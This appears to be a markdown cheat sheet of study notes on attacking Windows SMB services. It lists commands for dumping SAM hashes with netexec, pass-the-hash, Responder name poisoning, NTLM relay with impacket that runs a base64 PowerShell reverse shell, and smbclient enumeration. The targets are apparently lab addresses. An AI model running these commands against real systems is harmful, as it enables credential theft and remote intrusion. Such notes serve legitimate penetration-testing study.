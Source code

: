 ### Extract Hashes from SAM Database

```bash
netexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

/usr/share/doc/python3-impacket/examples/samrdump.py 10.129.14.128
```

### Pass-the-Hash
```
netexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Forced Authentication Attacks
#### Responder
- if we are in the same network we can pretend to be a smb server and catch the user hashes 
```
1) The local host file (C:\Windows\System32\Drivers\etc\hosts) will be checked for suitable records.
2) If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
3) Is there no local DNS record? A query will be sent to the DNS server that has been configured.
4) If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.
```
- user mistyped a shared folder's name `\\mysharefoder\` instead of `\\mysharedfolder\` In that case, the machine will send a multicast query to all devices on the network

```
 responder -I <interface name>
```

#### relay attack 
- will capture credintials and pass it using techniques like `PtH` to another systems 
- [revshells](https://www.revshells.com/)
```shell
#  we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
cat /etc/responder/Responder.conf | grep 'SMB ='

impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <poweshell base64 reverse shell>'

```


### Service Interaction
- smbclient
```
smbclient -N -L //10.129.14.128

smbclient //server78//publicfolder -U=user%password```
```
- smb commands
